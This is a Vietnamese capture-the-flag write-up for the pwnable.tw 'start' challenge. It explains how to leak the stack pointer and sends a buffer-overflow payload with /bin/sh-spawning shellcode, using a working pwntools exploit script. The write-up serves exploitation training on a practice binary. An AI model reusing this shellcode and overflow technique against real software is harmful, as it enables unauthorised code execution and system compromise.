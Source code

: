 Vậy thì không có lỗ hổng thông thường nào như gets(), ... được xuất hiện ở đây, điều đó có nghĩa là chúng ta chỉ việc đưa shellcode vào stack và thực hiện shell thôi!
Để thực hiện được việc gọi shellcode quyền năng là "/bin/sh" thì chúng ta search gg có shellcode sau : 
```
   0:   31 c9                   xor    ecx, ecx
   2:   f7 e1                   mul    ecx
   4:   51                      push   ecx
   5:   68 2f 2f 73 68          push   0x68732f2f
   a:   68 2f 62 69 6e          push   0x6e69622f
   f:   89 e3                   mov    ebx, esp
  11:   b0 0b                   mov    al, 0xb
  13:   cd 80                   int    0x80

shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
```
Sau đó yêu cầu tiếp theo là chúng ta phải tìm được esp_addr thì mới có thể add shellcode vào và thực thi được, để tìm được thì chúng ta chú ý câu lệnh *" 0x08048087 <+39>:	mov    ecx,esp"* câu lệnh này có nghĩa là esp sẽ được đưa vào ecx nên từ đấy chúng ta có thể leak được esp sau đó tính toán stack trả về và đưa shellcode vào : 

```
from pwn import *

BIN = "./start"
DEBUG = 1

shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
addr = 0x08048087 

io = process(BIN)
context.log_level = 'debug'
# io = remote("chall.pwnable.tw", 10000)


#_breakpoint = """
#		0x08048099
#	"""
#gdb.attach(io,_breakpoint)
io.recvuntil("CTF:")
payload = b'A' * 0x14 + p32(addr)
io.send(payload)
esp_addr = u32(io.recv(4))
 
print("[+]Esp address = ", hex(esp_addr))
 
payload = b'A' * 0x14 + p32(esp_addr + 0x14) + shellcode
io.sendline(payload)
io.interactive()
```

## orw
